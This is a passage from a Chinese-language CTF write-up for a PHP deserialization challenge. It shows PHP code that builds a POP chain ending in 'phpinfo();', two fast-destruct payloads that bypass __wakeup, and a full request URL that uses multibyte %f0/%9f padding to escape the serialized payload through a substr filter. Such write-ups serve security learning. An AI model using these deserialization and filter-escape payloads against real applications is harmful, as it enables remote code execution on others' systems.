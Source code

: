 ```php
$f = new F();
$e = new E();
$r = new R();
$payload = new Hacker($c);
$payload -> username = &$payload -> end;
$c -> c = $t;
$t -> t = $f;
$f -> f = $e;
$e -> e = $r;
$r -> r = "phpinfo();";
echo serialize($payload);
```
:::

现在拿到了链子：`O:6:"Hacker":3:{s:5:"start";O:1:"C":1:{s:1:"c";O:1:"T":1:{s:1:"t";O:1:"F":1:{s:1:"f";O:1:"E":1:{s:1:"e";O:1:"R":1:{s:1:"r";s:10:"phpinfo();";}}}}}s:3:"end";N;s:8:"username";R:8;}`

现在只需要让`destruct`方法执行就可以命令执行了

::: tip fast-destruct推荐文章
[PHP反序列化中wakeup()绕过总结](https://fushuling.com/index.php/2023/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADwakeup%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)  
:::

通过这个文章，可以学习到两种触发`fast-destruct`的方法

- 去掉末尾大括号
- 大括号前添加数字1

所以两种payload：
`O:6:"Hacker":3:{s:5:"start";O:1:"C":1:{s:1:"c";O:1:"T":1:{s:1:"t";O:1:"F":1:{s:1:"f";O:1:"E":1:{s:1:"e";O:1:"R":1:{s:1:"r";s:10:"phpinfo();";}}}}}s:3:"end";N;s:8:"username";R:8;`

`O:6:"Hacker":3:{s:5:"start";O:1:"C":1:{s:1:"c";O:1:"T":1:{s:1:"t";O:1:"F":1:{s:1:"f";O:1:"E":1:{s:1:"e";O:1:"R":1:{s:1:"r";s:10:"phpinfo();";}}}}}s:3:"end";N;s:8:"username";R:8;1}`

现在利用substrstr函数无法解析`%09,%9f`把我们的payload从两次序列化的字符串中逃逸出来

`?ez[ser.from_you=O:6:"Hacker":3:{s:5:"start";O:1:"C":1:{s:1:"c";O:1:"T":1:{s:1:"t";O:1:"F":1:{s:1:"f";O:1:"E":1:{s:1:"e";O:1:"R":1:{s:1:"r";s:10:"phpinfo();";}}}}}s:3:"end";N;s:8:"username";R:8;1}&substr=%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%9f%9f%9f%f0%f0%f0%f0%9f%9f%9f%f0%f0%f0%f0%f0%f0%f0%f0%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%f0%f0%f0%f0%f0%f0%f0%f0%9f%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0%f0`

![11](https://the0n3.top/medias/basectf/11.png)

## 其他  【待复现】